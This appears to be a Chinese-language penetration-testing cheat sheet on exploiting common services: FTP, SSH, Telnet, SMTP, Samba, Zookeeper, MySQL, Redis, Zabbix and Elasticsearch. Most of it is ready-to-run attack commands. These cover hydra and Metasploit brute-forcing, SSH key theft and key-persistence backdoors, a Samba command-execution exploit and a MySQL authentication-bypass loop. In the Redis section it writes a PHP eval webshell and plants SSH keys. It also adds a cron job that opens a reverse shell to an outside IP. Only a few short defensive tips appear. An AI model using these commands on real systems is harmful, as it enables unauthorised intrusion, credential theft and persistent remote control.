




# [](#%E5%B8%B8%E8%A7%81%E6%9C%8D%E5%8A%A1%E7%B1%BB%E6%BC%8F%E6%B4%9E)常见服务类漏洞

## [](#ftp-%E6%BC%8F%E6%B4%9E)FTP 漏洞

### [](#ftp-%E5%8D%8F%E8%AE%AE%E4%BB%8B%E7%BB%8D)FTP 协议介绍

FTP（File Transfer Protocol，文件传输协议）是 TCP/IP 协议组中的协议之一。FTP 协议包括两个组成部分，其一为 FTP 服务器，其二为 FTP 客户端。其中 FTP 服务器用来存储文件，用户可以使用 FTP 客户端通过 FTP 协议访问位于 FTP 服务器上的资源。在开发网站的时候，通常利用 FTP 协议把网页或程序传到 Web 服务器上。此外，由于 FTP 传输效率非常高，在网络上传输大的文件时，一般也采用该协议。 默认情况下 FTP 协议使用 TCP 端口中的 20 和 21 这两个端口，其中 20 用于传输数据，21 用于传输控制信息。但是，是否使用 20 作为传输数据的端口与 FTP 使用的传输模式有关，如果采用主动模式，那么数据传输端口就是 20；如果采用被动模式，则具体最终使用哪个端口要服务器端和客户端协商决定。

### [](#banner-%E4%BF%A1%E6%81%AF)Banner 信息

Banner 信息暴露远程系统上运行的任何软件或服务的漏洞，因此在安装任何服务后需要隐藏其软件版本。

### [](#%E5%8C%BF%E5%90%8D%E7%99%BB%E5%BD%95-anonymous-login)匿名登录 anonymous login

#### [](#msf)msf

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>scanner/ftp/anonymous 模块<br>``` |

### [](#%E4%B8%AD%E9%97%B4%E4%BA%BA%E5%97%85%E6%8E%A2)中间人嗅探

攻击者可以利用嗅探工具来帮助他们嗅探网络中服务器和客户端之间传输的数据包并检索凭据，这被称为嗅探，然后将其用于未经授权的访问。如上所述，FTP用户可以使用用于用户名和密码的明文登录协议对自己进行身份验证。

### [](#ftp-%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3%E5%B7%A5%E5%85%B7)FTP 暴力破解工具

#### [](#hydra)hydra

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>hydra -v -L user.txt -P pass.txt ftp://ip<br>``` |

#### [](#msf-1)MSF

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>auxiliary/scanner/ftp/ftp_login<br>``` |

### [](#vsftpd-%E7%AC%91%E8%84%B8%E6%BC%8F%E6%B4%9E)vsftpd 笑脸漏洞

版本：`vsftp 2.3.4`

后门：

用户名中包含 `:)` 就可以启用绑定在 6200 端口的后门 shell


### [](#%E9%98%B2%E5%BE%A1)防御

1.  修改配置上的banner信息
2.  加 ssl 证书(SSL\_Enable=YES)
3.  白名单限制登录
4.  iptables 设置登录次数与登录线程

## [](#ssh-%E6%BC%8F%E6%B4%9E)SSH 漏洞

### [](#ssh-%E7%AE%80%E4%BB%8B)SSH 简介

SSH 为 Secure Shell 的缩写，由 IETF 的网络小组（Network Working Group）所制定；SSH 为建立在应用层基础上的安全协议。SSH 是较可靠，专为远程登录会话和其他网络服务提供安全性的协议。利用 SSH 协议可以有效防止远程管理过程中的信息泄露问题。SSH 最初是UNIX系统上的一个程序，后来又迅速扩展到其他操作平台。SSH 在正确使用时可弥补网络中的漏洞。SSH客户端适用于多种平台。几乎所有UNIX 平台—包括 HP-UX、Linux、AIX、Solaris、Digital UNIX、Irix，以及其他平台，都可运行 SSH。

### [](#%E7%AB%AF%E5%8F%A3%E6%89%AB%E6%8F%8F)端口扫描

#### [](#nmap)nmap

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>nmap -sV -p 22 IP<br>``` |

#### [](#msf-2)msf

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>auxiliary/scanner/ssh/ssh_version<br>``` |

### [](#%E5%AF%86%E7%A0%81%E7%A0%B4%E8%A7%A3)密码破解

#### [](#msf-3)msf

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>use auxiliary/scanner/ssh/ssh_login<br>set stop_on_success true<br>``` |

### [](#ssh-%E7%94%A8%E6%88%B7%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C)SSH 用户代码执行

#### [](#msf-4)msf

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>use exploit/multi/ssh/sshexec<br>``` |

### [](#%E4%BD%BF%E7%94%A8-rsa-%E5%AF%86%E9%92%A5%E5%BB%BA%E7%AB%8B-ssh-%E8%BF%9E%E6%8E%A5)使用 RSA 密钥建立 SSH 连接

配置：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```bash<br>ssh-keygen<br>cd /home/kali/.ssh<br>ls<br>cat id_rsa.pub > authorized_keys<br>scp msfadmin@ip:/home/msfadmin/.ssh/id_rsa ./<br>sudo vim /etc/ssh/sshd_config<br>PasswordAuthentication no<br>sudo /etc/init.d/ssh restart<br>``` |

连接：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh -i id_rsa username@ip<br>``` |

### [](#%E7%AA%83%E5%8F%96-ssh-%E5%AF%86%E9%92%A5)窃取 SSH 密钥

已获得 meterpreter 会话，窃取 SSH 密钥

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>use auxiliary/scanner/ssh/ssh_login 获取会话<br>use post/multi/gather/ssh_creds<br>set session 1<br>run<br>``` |

### [](#ssh-%E5%AF%86%E9%92%A5%E6%8C%81%E4%B9%85%E6%80%A7%E5%90%8E%E9%97%A8)SSH 密钥持久性后门

已获得 meterpreter 会话，留下 SSH 密钥持久性后门

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>use auxiliary/scanner/ssh/ssh_login 获取会话<br>use post/linux/manager/sshkey_persistence<br>set session 1<br>run<br>``` |

### [](#%E9%98%B2%E5%BE%A1-1)防御

#### [](#%E4%BF%AE%E6%94%B9%E9%BB%98%E8%AE%A4%E7%AB%AF%E5%8F%A3)修改默认端口

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>sudo vim /etc/ssh/sshd_config<br>port 22222<br>sudo /etc/init.d/ssh restart<br>``` |

## [](#telnet-%E6%BC%8F%E6%B4%9E)Telnet 漏洞

### [](#telnet-%E7%AE%80%E4%BB%8B)telnet 简介

Telnet 协议是 TCP/IP 协议族中的一员，是 Internet 远程登录服务的标准协议和主要方式。它为用户提供了在本地计算机上完成远程主机工作的能力。在终端使用者的电脑上使用 telnet 程序，用它连接到服务器。终端使用者可以在 telnet 程序中输入命令，这些命令会在服务器上运行，就像直接在服务器的控制台上输入一样。可以在本地就能控制服务器。要开始一个 telnet 会话，必须输入用户名和密码来登录服务器。Telnet 是常用的远程控制 Web 服务器的方法。

### [](#banner-%E4%BF%A1%E6%81%AF-1)banner 信息

-   /etc/issue.net
-   msf
    -   use auxiliary/scanner/telnet/telnet\_version

### [](#%E4%BF%AE%E6%94%B9%E9%BB%98%E8%AE%A4%E7%AB%AF%E5%8F%A3-1)修改默认端口

-   /etc/services
-   sudo /etc/init.d/xinetd restart

### [](#%E9%80%9A%E8%BF%87%E5%97%85%E6%8E%A2%E7%AA%83%E5%8F%96%E5%87%AD%E6%8D%AE)通过嗅探窃取凭据

明文传输，可以嗅探


### [](#%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3)暴力破解

#### [](#hydra-1)hydra

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>hydra -v -L user.txt -P pass.txt telnet://IP<br>``` |

#### [](#msf-5)msf

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```cmd<br>use auxiliary/scanner/telnet/telnet_login<br>set rhost<br>set stop_on_success true<br>set user_file user.txt<br>set pass_file pass.txt<br>run<br>``` |

### [](#%E4%BF%9D%E6%8A%A4-telnet-%E5%85%8D%E5%8F%97%E6%9A%B4%E5%8A%9B%E6%94%BB%E5%87%BB)保护 telnet 免受暴力攻击

-   将允许来自 IP 地址 192.168.1.1 的流量访问端口 23 上的 telnet 服务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>sudo iptables -A INPUT -s 192.168.1.1 -p tcp --dport 23 -j ACCEPT<br>``` |

-   drop 掉来自端口 23 上其它 IP 地址的流量

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>sudo iptables -A INPUT -p tcp --dport 23 -j DROP<br>``` |

## [](#smtp-%E6%BC%8F%E6%B4%9E)SMTP 漏洞

### [](#smtp-%E7%AE%80%E4%BB%8B)SMTP 简介

SMTP 是一种提供可靠且有效的电子邮件传输的协议。SMTP 是建立在 FTP 文件传输服务上的一种邮件服务，主要用于系统之间的邮件信息传递，并提供有关来信的通知。SMTP 独立于特定的传输子系统，且只需要可靠有序的数据流信道支持，SMTP 的重要特性之一是其能跨越网络传输邮件，即 `SMTP邮件中继` 。使用 SMTP，可实现相同网络处理进程之间的邮件传输，也可通过中继器或网关实现某处理进程与其他网络之间的邮件传输。

### [](#smtp-%E5%91%BD%E4%BB%A4%E5%92%8C%E8%BF%94%E5%9B%9E%E7%A0%81)SMTP 命令和返回码

-   MAIL FROM
    -   指定发件人地址
-   RCPT TO
    -   指定单个的邮件接收人：可能有多个 RCPT TO；常在 MAIL FROM 命令之后
-   VRFY
    -   用于指定用户/邮箱是否存在；由于安全原因，服务器常禁止此命令
-   EXPN
    -   验证给定的邮箱列表是否存在，也常被禁用
-   返回码
    -   250：要求邮件操作完成
    -   500：要求邮件操作未完成，邮箱不可用（例如，邮箱未找到，或不可访问）

### [](#postfix-%E7%AE%80%E4%BB%8B)Postfix 简介

postfix 是 ubuntu 的默认邮件传输代理（MTA）

[http://www.postfix.org](http://www.postfix.org/)

### [](#smtp-%E7%94%A8%E6%88%B7%E6%9E%9A%E4%B8%BE)SMTP 用户枚举

-   Ubuntu 系统用户就是 postfix 用户
-   telnet
-   Smtp-user-enum
-   msf

#### [](#%E6%89%8B%E5%8A%A8%E6%9E%9A%E4%B8%BE-smtp-%E7%94%A8%E6%88%B7)手动枚举 SMTP 用户

telnet

-   VERY ftp



-   MAIL FROM:ftp + RCPT TO:ftp



#### [](#smtp-user-enum)SMTP-user-enum

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```cmd<br>apt-get install smtp-user-enum<br>smtp-user-enum -M VRFY -u root -t 202.38.xxx.xxx<br>smtp-user-enum -M VRFY -U dic.txt -t 202.38.xxx.xxx<br>smtp-user-enum -M RCPT -u bin -t 202.38.xxx.xxx<br>smtp-user-enum -M EXPN -u bin -t 202.38.xxx.xxx<br>``` |

#### [](#msf-6)msf

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>auxiliary/scanner/smtp/smtp_enum<br>``` |

### [](#%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3-1)暴力破解

#### [](#hydra-2)hydra

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>hydra -l msfadmin -P passwd.txt smtp://IP<br>``` |

## [](#samba-%E6%BC%8F%E6%B4%9E)Samba 漏洞

### [](#samba-%E7%AE%80%E4%BB%8B)Samba 简介

Samba 是在 Linux 和 UNIX 系统上实现 SMB 协议的一个免费软件，由服务器及客户端程序构成。

### [](#smb-%E7%AE%80%E4%BB%8B)SMB 简介

SMB(Server Messages Block，信息服务块)是一种在局域网上共享文件和打印机的一种通信协议，它为局域网内的不同计算机之间提供文件及打印机等资源的共享服务。

SMB协议是客户机/服务器型协议，客户机通过该协议可以访问服务器上的共享文件系统、打印机及其他资源。通过设置 `NetBIOS over TCP/IP` 使得 Samba 不但能与局域网络主机分享资源，还能与全世界的电脑分享资源。

### [](#smb-%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2)SMB 信息泄露

#### [](#msf-7)msf

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>auxiliary/scanner/smb/smb_version<br>``` |

#### [](#nmap-1)nmap

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>nmap -sV -p 445 IP<br>nmap -sV -v -p 445 --script=smb-vuln*<br>``` |

#### [](#nmblookup)nmblookup

nmblookup 用于查询 NetBIOS 名称，并使用基于 TCP/IP 的 NetBIOS 查询将它们映射到网络中的 IP 地址。这些选项允许将名称查询定向到特定的 IP 广播区域或特定的机器。所有查询都通过 UDP 完成。

nmblookup 是用于枚举域/工作站和 MAC 地址的有用命令

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>nmblookup -A 192.168.1.139<br>``` |

#### [](#nbtscan)nbtscan

扫描在本地或远程 TCP/IP 网络上 NetBIOS 打开的名称服务器，因为这是查找打开共享的第一步

可以在整个子网中工作，而不是在单个 IP 上工作

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>nbtscan 192.168.1.1/24<br>``` |

#### [](#smbmap)SMBMap

SMBMap 允许用户枚举整个域中的 samba 共享驱动器。列出共享驱动器，驱动器权限，共享内容，上载/下载功能，文件名自动下载模式匹配，甚至执行远程命令。旨在简化大型网络中潜在敏感数据的搜索。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>smbmap -H 192.168.1.139<br>smbmap -H 192.168.1.139 -u msfadmin -p msfadmin<br>``` |

### [](#%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3-2)暴力破解

#### [](#hydra-3)hydra

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>hydra -L user.txt -P pass.txt -v smb://ip<br>``` |

### [](#%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C)命令执行

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>search smb 3.0.20<br>use exploit/multi/samba/usermap_script<br>``` |

## [](#zookeeper)Zookeeper

### [](#zookeeper-%E7%AE%80%E4%BB%8B)Zookeeper 简介

Zookeeper 是一个分布式服务框架，是 Apache Hadoop 的一个子项目，它主要是用来解决分布式应用中经常遇到的一些数据管理问题，如：统一命名服务、状态同步服务、集群管理、分布式应用配置项的管理等。

### [](#%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)环境搭建

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>wget https://mirrors.tuna.tsinghua.edu.cn/apache/zookeeper/zookeeper-3.4.14/zookeeper-3.4.14.tar.gz<br>tar -xzvf zookeeper-3.4.14.tar.gz<br>mv zoo_sample.cfg zoo.cfg<br>./zkServer.sh start<br>``` |

### [](#%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE)未授权访问

Zookeeper 默认未设置密码，在未进行任何访问控制情况下，攻击者可通过执行 env 命令获得系统大量的敏感信息，包括系统名称、Java 环境。

Zookeeper 默认端口开启在 2181 端口

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>netstat -an \| grep 2181<br>nmap -sV -p 2181 IP<br>``` |

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>nc IP 2181<br>``` |

-   envi
    -   打印有关服务环境的详细信息
-   stat
    -   列出关于性能和连接客户端的统计信息
-   ruok
    -   测试服务器是否运行在非错误状态
-   reqs
    -   列出未完成的请求
-   dump
    -   列出未完成的会话和临时节点

图形化界面工具：

-   ZooInspector

## [](#mysql-%E6%BC%8F%E6%B4%9E)Mysql 漏洞

### [](#mysql-%E7%AE%80%E4%BB%8B)Mysql 简介

Mysql 数据库是目前世界上使用最为广泛的数据库之一，很多著名公司和站点都使用Mysql 作为其数据库支撑

目前很多架构都以 Mysql 作为数据库管理系统，例如 LAMP、和 WAMP 等

### [](#mysql-%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86)Mysql 信息收集

#### [](#%E7%89%88%E6%9C%AC%E4%BF%A1%E6%81%AF)版本信息

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```cmd<br>nmap:<br>nmap -sV -p 3306 IP<br>msf:<br>use auxiliary/scanner/mysql/mysql_version<br>``` |

#### [](#%E5%85%B6%E5%AE%83%E7%9B%B8%E5%85%B3%E4%BF%A1%E6%81%AF)其它相关信息

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>use auxiliary/admin/mysql/mysql_enum<br>``` |

### [](#mysql-%E5%AF%86%E7%A0%81%E7%A0%B4%E8%A7%A3)Mysql 密码破解

#### [](#hydra-4)hydra

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>hydra -L user.txt -P password.txt -v mysql://IP<br>``` |

#### [](#msf-8)msf

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>use auxiliary/scanner/mysql/mysql_login<br>``` |

### [](#mysql-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)Mysql 漏洞利用

#### [](#mysql-%E8%BA%AB%E4%BB%BD%E8%AE%A4%E8%AF%81%E6%BC%8F%E6%B4%9Ecve-2012-2122)MySQL 身份认证漏洞(CVE-2012-2122)

[https://seclists.org/oss-sec/2012/q2/493](https://seclists.org/oss-sec/2012/q2/493)

memcmp() 的返回值都在\[127，-128\]之内，把两个字符串逐个字符的比较，如果找到不一样的，就把这两个字符相减后返回

memcmp()返回 0 的时候 check\_scramble() 认证通过



#### [](#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)漏洞利用

msf：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>use auxiliary/scanner/mysql/mysql_authbypass_hashdump<br>``` |

Linux shell:

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>for i in `seq 1 1000`;do mysql -uroot -pwrong -h IP -P3306;done<br>``` |

## [](#redis)Redis

### [](#redis-%E7%AE%80%E4%BB%8B)redis 简介

Redis是大家常说的非关系型数据库中的一种，是一个开源的使用 ANSI 语言编写、支持网络可基于内存亦可持久化的日志型、Key-Value 数据库，并提供多种语言的API

Redis 与 memcached 一样，为了保证效率，数据都是缓存在内存中。但 Redis 会周期性的把更新的数据写入磁盘或者把修改操作写入追加的记录文件，并且在此基础上实现了 master-slave (主从)同步。

### [](#redis-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E)redis 未授权访问漏洞

默认的配置是使用 6379 端口，没有密码。这时候会导致未授权访问读写 Redis 数据。

#### [](#%E5%9C%A8-web-%E7%9B%AE%E5%BD%95%E4%B8%8B%E5%86%99%E5%85%A5-webshell)在 web 目录下写入 Webshell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>config set dir /var/www/html<br>config set dbfilename webshell.php<br>set webshell "<?php phpinfo();?>"<br>save<br>``` |



当数据库过大时，redis 写 shell 的小技巧：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```php<br><?php <br>set_time_limit(0);<br>$fp=fopen('webshell.php','w');<br>fwrite($fp,'<?php @eval($_POST[1]);?>');<br>exit();<br>?><br>``` |

#### [](#%E5%86%99-ssh-%E5%85%AC%E9%92%A5)写 ssh 公钥

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>ssh-keygen -t rsa<br>cd .ssh<br>(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > 1.txt<br>cat 1.txt \| redis-cli -h ip -x set payload<br>config set dir /root/.ssh<br>config set dbfilename authorized_keys<br>save<br>``` |

#### [](#%E5%86%99-crontab)写 crontab

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>redis-cli -h 192.168.0.104<br>set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.0.104/4444 0>&1\n\n"<br>config set dir /var/spool/cron<br>config set dbfilename root<br>save<br>``` |

### [](#%E5%88%A9%E7%94%A8-redis-%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6-rce)利用 redis 主从复制 rce

[https://geekby.xyz/2019/07/15/redis-ji-yu-zhu-cong-fu-zhi-de-rce-li-yong-fang-shi/](https://geekby.xyz/2019/07/15/redis-ji-yu-zhu-cong-fu-zhi-de-rce-li-yong-fang-shi/)

## [](#zabbix-%E6%BC%8F%E6%B4%9E)Zabbix 漏洞

### [](#zabbix-%E7%AE%80%E4%BB%8B)Zabbix 简介

Zabbix 是由 Alexei Vladishev 开发的一种网络监视、管理系统，基于 ServerClient 架构。可用于监视各种网络服务、服务器和网络机器等状态。

使用各种 Database-end 如：MySQL，PostgreSQL，SQLite，Oracle IBM DB2 储存资料。Server 端基于 C 语言、Web管理端 frontend 则是基于 PHP 所制作的。Zabbix 可以使用多种方式监视。可以只使用 Simple Check 不需要安装 client 端，亦可基于 SMTP 或 HTTP 各种协定做死活监视。

在客户端如 UNIX， Windows 中安装 Zabbix Agent 之后，可监视 CPU Load、网络使用状况、硬盘容量等各种状态。而就算没有安装 Agent 在监视对象中，Zabbix 也可以经由 SNMP、TCP、IMP、利用 PMI、SSH、 telnet 对目标进行监视。

另外， Zabbix 包含 XMPP 等各种 Item 警示功能

### [](#zabbix-sql-%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E)Zabbix SQL 注入漏洞

[https://geekby.xyz/2019/03/01/zabbix-latest.php-sql-zhu-ru-lou-dong/](https://geekby.xyz/2019/03/01/zabbix-latest.php-sql-zhu-ru-lou-dong/)

### [](#zabbix-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%88%A9%E7%94%A8)Zabbix 命令执行利用

管理员在安装配置 Zabbix 过程中，使用了弱口令或默认的用户名与口令。如：`Admin/zabbix`，这样，Zabbix服务器的用户认证就形同虚设。攻击者可以创建 `system.run[command,]` 监控项执行命令，甚至获取服务器 shell，进行各种挖矿行为。

[https://www.jianshu.com/p/675b6385b7c0](https://www.jianshu.com/p/675b6385b7c0)

## [](#elasticsearch-%E6%BC%8F%E6%B4%9E)Elasticsearch 漏洞

### [](#elasticsearch-%E7%AE%80%E4%BB%8B)Elasticsearch 简介

Elasticsearch 是一个分布式、高扩展、高实时的搜索与数据分析引擎。它能很方便的使大量数据具有搜索、分析和探索的能力。充分利用 Elasticsearch 的水平伸缩性，能使数据在生产环境变得更有价值。

Elasticsearch 的实现原理主要分为以下几个步骤，首先用户将数据提交到 Elasticsearch 数据库中，再通过分词控制器去将对应的语句分词，将其权重和分词结果一并存入数据，当用户搜索数据时候，再根据权重将结果排名，打分，再将返回结果呈现给用户。

### [](#elasticsearch-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E)Elasticsearch 未授权访问漏洞

Elasticsearch 是 java 编写的企业级搜索服务，启动此服务默认会开放 `HTTP 9200` 端口，可被非法操作数据。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>nmap -sV -p 9200 IP<br>``` |

-   [http://IP:9200/](http://ip:9200/)
-   [http://IP:9200/\_nodes](http://ip:9200/_nodes)
    -   查看节点数据
-   [http://IP:9200/\_cat](http://ip:9200/_cat)

默认开启的 9200 端口和使用的端口不对外公布，或架设内网环境。或者防火墙上设置禁止外网访问 9200 端口为 elasticsearch 增加登录验证，可以使用官方推荐的shield 插件，该插件为收费插件，可试用 30 天，免费的可以使用 elasticsearch-http-basic，searchquard 插件

### [](#cve-2014-3120)CVE-2014-3120

[https://geekby.xyz/2019/06/08/elasticsearch-ming-ling-zhi-xing-lou-dong/](https://geekby.xyz/2019/06/08/elasticsearch-ming-ling-zhi-xing-lou-dong/)

### [](#cve-2015-1427)CVE-2015-1427

[https://geekby.xyz/2019/06/08/elasticsearch-groovy-sha-he-rao-guo/](https://geekby.xyz/2019/06/08/elasticsearch-groovy-sha-he-rao-guo/)

### [](#cve-2015-3337)CVE-2015-3337

[https://geekby.xyz/2019/06/08/elasticsearch-mu-lu-chuan-yue-lou-dong/](https://geekby.xyz/2019/06/08/elasticsearch-mu-lu-chuan-yue-lou-dong/)

### [](#cve-2015-5531)CVE-2015-5531

[https://geekby.xyz/2019/06/08/elasticsearch-mu-lu-chuan-yue-lou-dong-1/](https://geekby.xyz/2019/06/08/elasticsearch-mu-lu-chuan-yue-lou-dong-1/)
